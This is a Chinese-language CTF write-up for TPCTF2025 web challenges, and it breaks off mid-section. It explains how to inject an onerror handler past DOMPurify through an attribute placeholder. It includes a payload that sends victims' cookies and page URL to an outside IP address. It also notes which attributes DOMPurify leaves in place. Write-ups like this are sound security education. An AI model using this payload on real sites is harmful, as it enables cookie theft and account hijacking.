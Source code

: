 ```yaml
---
title: TPCTF2025
date: 2025-03-12
---
```


# 目录

# Web

## baby layout

layout 是你的模版,content 占位上面的输入框

使用了 DOMPurify 进行过滤，测试网站https://cure53.de/purify

我们输入的 script，onerror，onload 均被过滤

很明显外部库很难绕过

所以出题人给了我们{{content}}可以闭合引号，自己创造一个 onerror 标签

就像这样：

Layout：

```html
<img src="{{content}}" />
```

Post:

```javaScript
ccc" onerror="javascript:alert(1)
```

Poc：

```java
aaaaaaaa" onerror="fetch('http://47.237.137.xxx:7777?' +
    encodeURIComponent(
      'cookie=' + document.cookie +
      '&url=' + location.href
    )
  )
```

## safe layout

DOMPurify 在设置了{ ALLOWED_ATTR: [] }时，并不会删除所有的属性。aria-和 data-属性还会存在。

![img](https://dlut-sss.feishu.cn/space/api/box/stream/download/asynccode/?code=MjFhMWIyZmM5ODU1ZDNjZDA3Y2NiN2UwMGI0NjY4NzdfNEtsQnFzVFdYc3d3VDQyWkx6T2dqSVFMeUFJd3cxOVpfVG9rZW46SDloVWJFNUlMbzZ5aEh4OWZ4emNvNWJxbndqXzE3NTg4ODI2ODE6MTc1ODg4NjI4MV9WNA)

layout:
